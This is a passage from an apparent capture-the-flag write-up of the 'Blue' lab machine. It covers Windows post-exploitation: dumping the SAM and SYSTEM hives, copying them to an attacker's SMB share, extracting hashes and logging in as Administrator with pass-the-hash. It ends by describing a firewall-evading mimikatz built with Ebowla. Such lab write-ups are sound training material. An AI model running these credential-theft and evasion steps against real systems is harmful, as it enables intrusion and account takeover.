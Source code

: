 Another way to **[obtain the hash](https://www.picussecurity.com/hubfs/Threat%20Readiness%20-%20Active%20Directory%20Ebook%20-%20Q123/Picus-The-Complete-Active-Directory-Security-Handbook.pdf){:target="_blank"}** of the user with maximum privileges is to make a copy of the **SAM** and **SYSTEM** hives of the victim machine, then I transfer them to my attacker machine to use different tools like `pwdump.py`, `samdump2` or `secretsdump` to obtain the hashes of all users. Then with `psexec` I can connect to the victim machine with the user **Administrator** exploiting the **Pass The Hash** attack.

> **Victime Machine**:

```cmd
# 2nd Persistence Method
reg save HKLM\sam sam.backup
reg save HKLM\system system.backup
```

> **Attacker Machine**:

```bash
sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy .\sam.backup \\10.10.14.84\smbFolder\sam
copy .\sam.backup \\10.10.14.84\smbFolder\system
certutil.exe -hashfile .\system.backup MD5          # :)
certutil.exe -hashfile .\sam.backup MD5             # :)
```

> **Attacker Machine**:

```bash
md5sum system
md5sum sam

/usr/share/creddump7/pwdump.py system sam                   # :)
samdump2 system sam                                         # :)
impacket-secretsdump -sam sam -system system LOCAL          # :)
crackmapexec smb 10.129.97.111 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa
impacket-psexec WORKGROUP/Administrator@10.129.97.111 -hashes :cdf51b162460b7d5bc898f493751a0cc
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Another way to create **Persistence** and also bypass the **Firewall** is to use the **[Ebowla](https://github.com/Genetic-Malware/Ebowla){:target="_blank"}** project to create **Genetic Malware**, in this case I will configure a specific `mimikatz` for the **Blue** machine. I download the project and customize the `genetic.config` configuration file, the principal thing I have to take into account is to set correctly the values of the **Environment variables** of the target machine. Once the changes are done I use the `build_x64_go.sh` script (the victim machine has a 64bit architecture) and create a `mimikatz` that could bypass the firewall. 
